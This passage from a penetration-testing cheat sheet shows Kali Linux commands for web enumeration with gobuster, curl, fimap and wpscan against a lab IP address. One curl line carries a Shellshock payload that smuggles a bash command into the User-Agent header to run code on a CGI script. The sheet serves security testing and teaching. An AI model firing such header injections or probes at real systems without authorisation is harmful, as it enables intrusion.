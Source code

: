 Run gobuster against a directory with a provided wordlist, found in the Kali Linux installation and use the local BurpSuite application as a web proxy:
``` bash
root@kali:~# gobuster -u http://192.168.1.100/ -w /usr/share/seclists/Discovery/Web_Content/common.txt -p http://127.0.0.1:8080
```

### Curl
Curl is a command line tool to query web servers and other network ports. It is very useful for identifying versions through banner grabs (such as with FTP) as well as parsing web pages into a text readable and command line tool manipulable format. It can also be used to automate attacks that use a URL insertion to simplify actions and make them more repeatable.

Look at the Page Header and What is being Sent:
``` bash
root@kali:~# curl -v http://192.168.1.100/cgi-bin/admin.cgi -s >/dev/null
```

Test is you can execute a bash script from a header field:
``` bash
root@kali:~# curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; uname -a; echo zzzz;'"  http://192.168.1.100/cgi-bin/admin.cgi
```

Query a webpage and output it to HTML2Text:
``` bash
root@kali:~# curl -vk https://192.168.1.100 | html2text
```

Enumerate HTTP methods with curl:
``` bash
root@kali:~# curl -vX OPTIONS 192.168.1.100/test
```

Quick test with curl of PUT option:
``` bash
root@kali:~# curl -vX PUT -d "$(cat test.txt)" 192.168.1.100/test/test.txt
```

### LFI/RFI Discovery
You can potentially detect if there are possible LFI's or RFI's via the "fimap" python script.
``` bash
root@kali:~# fimap.py -u 'http://192.168.1.100/test.php?file=bang&id=23'
```

## WordPress Enumeration
WordPress is commonly used for website presentation through themes. It's multitude of plugins offer myriad avenues of potential vulnerabilities. Wpscan is a great tool to identify them.

### wpscan
Wpscan identifies the WordPress version and plugins installed and compares them against a list of known vulnerabilities which it lists out. It also provides the name of the current theme.

Check WordPress and its plugins for vulnerabilities:
``` bash
root@kali:~# wpscan --url 192.168.1.100 --enumerate p
```
